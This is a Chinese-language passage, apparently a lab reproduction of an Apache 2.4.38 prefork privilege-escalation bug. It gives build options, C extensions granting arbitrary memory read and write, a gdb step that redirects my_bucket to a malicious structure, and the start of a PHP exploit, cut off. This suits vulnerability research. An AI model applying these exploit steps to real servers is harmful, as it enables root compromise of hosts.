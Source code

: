 Apache版本:Apache/2.4.38 (Unix)

PHP版本:PHP 7.3.3

Apache 编译选项:

    ./configure --prefix=/usr/local/httpd/     --sysconfdir=/etc/httpd/     --with-include-apr     --disable-userdir     --enable-headers     --with-mpm=prefork     --enable-modules=most     --enable-so     --enable-deflate     --enable-defate=shared     --enable-expires-shared     --enable-rewrite=shared     --enable-static-support     --with-apr=/usr/local/apr/     --with-apr-util=/usr/local/apr-util/bin     --with-ssl     --with-z 

PHP编译选项:

    ./configure --prefix=/usr/local/php/     --with-config-file-path=/usr/local/php/etc/     --with-apxs2=/usr/local/httpd/bin/apxs \             
    --enable-fpm     --with-zlib     --with-libxml-dir     --enable-sockets     --with-curl     --with-jpeg-dir     --with-png-dir     --with-gd     --with-iconv-dir     --with-freetype-dir     --enable-gd-native-ttf     --with-xmlrpc     --with-openssl     --with-mhash     --with-mcrypt     --with-pear     --enable-mbstring     --enable-sysvshm     --enable-zip     --disable-fileinfo 

PHP扩展

    [root@bogon php-extension]# cat read_mem.c 
    #include <stdio.h>
    #include <stdint.h>

    long read_mem(long addr)
    {
        return (unsigned long)(*((uint8_t*)(addr)));
    }
    [root@bogon php-extension]# cat write_mem.c 
    #include <stdio.h>
    #include <stdint.h>

    void write_mem(long addr,long data)
    {
        *((uint8_t*)addr) = data;
    }
    [root@bogon php-extension]# 

#### 问题

我在Apache 2.4.38 与 Apache
2.4.25中，测试发现all\_buckets的地址与共享内存的地址之间的差值，远远不是一个4字节能表示的（bucket索引4字节）。所以在我的演示中，需要通过gdb来修改

    my_bucket = &all_buckets[bucket];//prefork.c:685

my\_bucket的值，来模拟修改bucket，使其指向恶意的prefork\_child\_bucket结构。

#### PHP利用代码

    <?php

    function read_mem_dword($addr)
    {
        $ret = 0;
        for($j = 0;$j<4;$j++){
            $ret += read_mem($addr+$j) * pow(256,$j);
        }
        return $ret;
    }

